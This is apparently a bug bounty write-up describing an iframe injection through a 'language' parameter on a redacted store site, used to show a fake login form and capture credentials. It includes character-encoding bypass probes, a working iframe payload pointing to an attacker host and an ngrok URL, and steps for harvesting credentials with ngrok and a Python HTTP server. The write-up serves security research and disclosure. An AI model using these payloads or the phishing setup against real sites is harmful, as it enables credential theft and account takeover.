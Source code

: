 [![Twitter](https://img.shields.io/badge/twitter%20-%231DA1F2.svg?&style=for-the-badge&logo=Twitter&logoColor=white&label=Follow%20%40xbforce)](https://twitter.com/xbforce)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
[![Youtube](https://img.shields.io/badge/Youtube%20-%23FF0000.svg?&style=for-the-badge&logo=YouTube&logoColor=white&label=Subscribe)](http://www.youtube.com/channel/UCadRCMA7BFJ2iwiABKqf0Fg?sub_confirmation=1)


## Account Takeover via iFrame Injection

```
Vulnerable URL: https://store.redacted.com/
Vulnerable Parameter: language=
```

Sometimes you find an XSS vulnerability on a target domain but you cannot inject your javascript codes because the target sanitizes payloads perfectly using black/white lists or stop them from doing their malicious jobs by using WAFs, but there are always different ways to bypass defending mechanisms, and it is only the matter of time and efforts.

Some months ago I was looking for bugs on a very big company’s subdomains, and found nothing after trying different techniques to takeover accounts for four days. Usually if there is a login system and I can signup on the target website I go for account takeover first. I did the same on this target but I wasn’t able to find any way to takeover accounts simply because the company’s security team did its job really great to block all ways to takeover accounts.

After trying account takeover I decided to look for XSS so maybe I can takeover accounts indirectly via an XSS vulnerability. When I work on a target I always run burpsuite first and capture all traffic with this amazing tool. If I need parameters I go to ```Target``` TAB and on the ```Sitemap``` TAB I look at ```Contents``` section, then prioritize URLs based on ```Params```. This is because burpsuite scanner finds some URLs with parameters and if you are only looking for URLs on the ```history``` TAB you may miss some golden ones.

So I tested URLs and tried different techniques manually to get an XSS, but there wasn’t any success. Finally I picked another address which looked like this:

```
https://store.redacted.com/some/dir/store/index.jsp?c=subscribe
```

I changed the value of the above parameter but nothing reflected on the response page. I noticed that other subdomains have a common parameter in their addresses which is ```language=```, however I wasn’t able to get XSS from this parameter on the other subdomains but I decided to give it a try and add this parameter to the targeted URL:

```
https://store.redacted.com/some/dir/store/index.jsp?language=PAYLOADS&c=subscribe
```


**How did I bypass the restrictions?**

I Hardly ever throw ```ready to use payloads``` to my targets, instead, I try to bypass special characters manually by using different characters and different techniques and make a note of them if characters make any change to the special characters or the URL in total:

```
?language=%25%322

?language=%%32%32

?language=%%2522

?language=%00%25%00%32%00%32

?language=%21%22%3c

?language=%40%22%3c

?language=%5c%22%3c

etc
```


After trying many characters I finally found the golden char which was ```%7b``` which is an open curly bracket ```{```.

```
https://store.redacted.com/some/dir/store/index.jsp?language=%7b%22%3exbforce&c=subscribe
```

![response](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/02-escape.png)

<br />
<br />

![escape-url](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/03-escape_url.png)





On some targets you are done when you bypass restrictions and you can inject your payload and execute it easly, but on some other targets like the one that I worked on, it is just the first step of struggles and you have to find a way to bypass other restrictions too.

I injected different javascript and html tags and events but all of them were blocked and I couldn’t execute any XSS payload except ```iframe``` and ```src``` (only if it is inside the iframe tag). Next step was trying to cover the original page with my iframe and its contents, but unfortunately it wasn’t possible and I don’t know why the different values on ```position=```, ```width=``` and ```height=``` didn’t work. The only effective values that worked for me were:

```
{“><iframe src="https://attacker-server.com/" position="fixed" width="100%" height="100%"></iframe>
```



This way I could make a banner at the top of the vulnerable page and show something like login or credit card forms there.

As the website allowed its customers to save their credit card info in their accounts and of course the accounts contained Private Information of the users like ```email address, phone number, home address, credit card info etc```, I decided to create a form with a deceitful gift within the iframe to show that I can capture the victims’ credentials.

![login-form](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/04-login-method1.png)

I also created another page to redirect the victims after submitting the form so that victims get the unfortunate message.

![unfortunate-message](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/05-unfortune-method1.png)

Finally to show how the vulnerability can be exploited I ran my tools and recorded a POC video as well as writing a report containing screenshots.

**Tools**

Ngrok – An easy to use server
Python SimpleHTTPServer.

**Steps to reproduce the exploit**

- Create an index.html file with a form to get username and password of the victim, and redirect them to ```done.html```.
- Create another file named ```done.html``` to show the unfortunate message.
- Make a directory and copy the ```index.html```, ```done.html``` and the ```logo``` file of the target to the directory.

- Run both tools in the same directory where the files are located.

```$ ngrok http 58700```

```$ python -m SimpleHTTPServer 58700```

! Both tools should have the same port number !

- Open the malicious URL as a victim and submit the form.

```
https://store.redacted.com/some/dir/store/index.jsp?language={"><iframe src="https://83c2c8cabcbd.ngrok.io/" position="fixed" width="100%" height="100%" width="inherit" height="inherit" margin="-5" padding="-5"></iframe>&c=subscribe
```

- Check the captured credentials in python SimpleHTTPServer:

![credentials](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/06-creds-method1.png)



### To support me you can buy Hacking courses through my voucher:

:moneybag:	https://store.7asecurity.com/discount/97C9-28DB-5815-44EE

### Or donate through the following links:

:moneybag:	https://paypal.me/pools/c/8pL97bLm3r

:moneybag:	https://www.buymeacoffee.com/xbforce
